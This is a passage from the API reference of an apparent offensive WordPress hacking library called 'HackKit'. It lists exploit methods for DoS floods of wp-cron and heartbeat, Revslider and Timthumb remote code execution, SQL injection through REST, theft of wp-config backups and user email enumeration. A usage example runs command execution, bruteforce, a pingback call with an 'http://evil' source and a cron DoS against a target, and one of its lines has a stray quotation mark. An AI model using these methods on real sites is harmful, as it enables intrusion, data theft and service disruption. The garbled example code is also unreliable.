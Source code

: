 | `exploit_cron_dos(threads: int=100, duration: int=30) -> None`                    | Flood wp-cron for DoS.                                |                                                     |
| `exploit_download_backup(remote_path: str, local_filename: str) -> bool`          | Download backup file.                                 |                                                     |
| `exploit_plugin_readme(plugin: str) -> Optional[str]`                             | Read plugin readme.txt.                               |                                                     |
| `exploit_theme_stylesheet(theme: str) -> Optional[str]`                           | Read theme style.css.                                 |                                                     |
| `exploit_revslider_rce(upload_file: str) -> str`                                  | Revslider upload RCE.                                 |                                                     |
| `exploit_timthumb_rce(image_url: str) -> str`                                     | Timthumb src RCE.                                     |                                                     |
| `exploit_file_editor(file_path: str, content: str) -> str`                        | Edit plugin via plugin-editor.                        |                                                     |
| `exploit_json_insert(endpoint: str, payload: Dict[str,Any]) -> str`               | Insert via REST.                                      |                                                     |
| `exploit_csv_export(endpoint: str) -> str`                                        | CSV export endpoint.                                  |                                                     |
| `exploit_wp_config_bak() -> Optional[str]`                                        | Download wp-config.php.bak.                           |                                                     |
| `exploit_sitemap_enum() -> List[str]`                                             | Parse sitemap.xml URLs.                               |                                                     |
| `exploit_user_email_leak(max_id: int=10) -> Dict[int,str]`                        | Enumerate user emails.                                |                                                     |
| `exploit_heartbeat_dos(times: int=100) -> None`                                   | Flood heartbeat.                                      |                                                     |
| `exploit_sqli_rest(resource: str, payload: str) -> str`                           | SQLi via REST filtering.                              |                                                     |
| `extract_real_ip() -> Optional[str]`                                              | Return `X-Forwarded-For` or `X-Real-IP` if present.   |                                                     |

##### Example: WordPress Master Example

```python
from HackKit import WordPress

wp = WordPress(target="http://mysite")
# 1) Scan
findings = wp.scan()
print(findings)
# 2) Pingback exploit
print(wp.exploit_pingback(src="http://evil","tgt="http://mysite"))
# 3) Exec command
print(wp.exploit_exec("id"))
# 4) Bruteforce
d = wp.exploit_bruteforce(["admin"],["1234"])
print(d)
# 5) Cron DoS
wp.exploit_cron_dos(threads=50, duration=10)
# 6) Download backup
print(wp.exploit_download_backup("wp-content/backup.zip","backup.zip"))
# 7) Plugin readme
print(wp.exploit_plugin_readme("revslider"))
# 8) Theme stylesheet
print(wp.exploit_theme_stylesheet("twentytwenty"))
# And so on for other methods...
```
